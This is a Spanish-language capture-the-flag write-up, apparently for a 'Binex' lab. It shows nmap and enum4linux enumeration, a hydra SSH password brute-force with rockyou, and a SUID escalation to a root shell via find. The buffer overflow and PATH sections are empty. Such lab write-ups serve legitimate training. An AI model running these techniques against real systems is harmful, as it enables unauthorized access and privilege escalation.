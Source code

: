 # Binex

## Tabla de contenido

- [Gain initial access](#Gain-initial-access).
- [SUID :: Binary 1](#SUID-::-Binary-1).
- [Buffer Overflow :: Binary 2](#Buffer-Overflow-::-Binary-2).
- [PATH Manipulation :: Binary 3](#PATH-Manipulation-::-Binary-3).


----------------------------------------
### Gain initial access
---------------------------------------

Hacemos un escaneo general para poder ver los servicios y puertos que utiliza:
```
mkdir nmap
nmap -sC -sV -oN nmap/initial 10.10.78.222
```
El resultado generado es el siguiente:

```
Nmap scan report for ip-10-10-78-222.eu-west-1.compute.internal (10.10.78.222)
Host is up (0.0016s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3f:36:de:da:2f:c3:b7:78:6f:a9:25:d6:41:dd:54:69 (RSA)
|   256 d0:78:23:ee:f3:71:58:ae:e9:57:14:17:bb:e3:6a:ae (ECDSA)
|_  256 4c:de:f1:49:df:21:4f:32:ca:e6:8e:bc:6a:96:53:e5 (EdDSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:F0:4C:68:F6:BF (Unknown)
Service Info: Host: THM_EXPLOIT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: THM_EXPLOIT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: thm_exploit
|   NetBIOS computer name: THM_EXPLOIT\x00
|   Domain name: \x00
|   FQDN: thm_exploit
|_  System time: 2020-11-12T00:12:19+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-12 00:12:19
|_  start_date: 1600-12-31 23:58:45

```
Descargamos el script enum4linux para enumerar datos de hosts Samba.

```
git clone https://github.com/CiscoCXSecurity/enum4linux.git
./enum4linux.pl -R 1000-1003 10.10.78.222
```
El resultado obtenido es: 
```
 =============================================================== 
|    Users on 10.10.78.222 via RID cycling (RIDS: 1000-1003)    |
 =============================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2007993849-1719925537-2372789573
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-2007993849-1719925537-2372789573 and logon username '', password ''
S-1-5-21-2007993849-1719925537-2372789573-1000 *unknown*\*unknown* (8)
S-1-5-21-2007993849-1719925537-2372789573-1001 *unknown*\*unknown* (8)
S-1-5-21-2007993849-1719925537-2372789573-1002 *unknown*\*unknown* (8)
S-1-5-21-2007993849-1719925537-2372789573-1003 *unknown*\*unknown* (8)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-1000 *unknown*\*unknown* (8)
S-1-5-32-1001 *unknown*\*unknown* (8)
S-1-5-32-1002 *unknown*\*unknown* (8)
S-1-5-32-1003 *unknown*\*unknown* (8)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\********* (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
enum4linux complete on Thu Nov 12 02:05:21 2020
```

Utilizamos fuerza bruta para obtener la contraseña del usuario encontrado:
```
hydra -l ********* -P /usr/share/wordlists/rockyou.txt 10.10.78.222 -t 4 ssh
```

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2020-11-12 02:13:30
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.78.222:22/

[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344334 to do in 3735:31h, 4 active
[STATUS] 61.33 tries/min, 184 tries in 00:03h, 14344214 to do in 3897:54h, 4 active
[STATUS] 60.57 tries/min, 424 tries in 00:07h, 14343974 to do in 3946:51h, 4 active

[22][ssh] host: 10.10.78.222   login: *********   password: *******
```

----------------------------------------
### SUID :: Binary 1
---------------------------------------

Utilizamos el comando "find" para poder filtrar los SUID
```
find / -perm -u=s -type f 2>/dev/null
```
El resultado:
```
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/sbin/pppd
/home/des/bof
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/find
/usr/bin/chsh
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgrp
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
/bin/ping
```

Buscamos en la página https://gtfobins.github.io/

Utilizamos el comando:
```
./find . -exec /bin/sh -p \; -quit
```

----------------------------------------
### Buffer Overflow :: Binary 2
---------------------------------------


----------------------------------------
### PATH Manipulation :: Binary 3
---------------------------------------
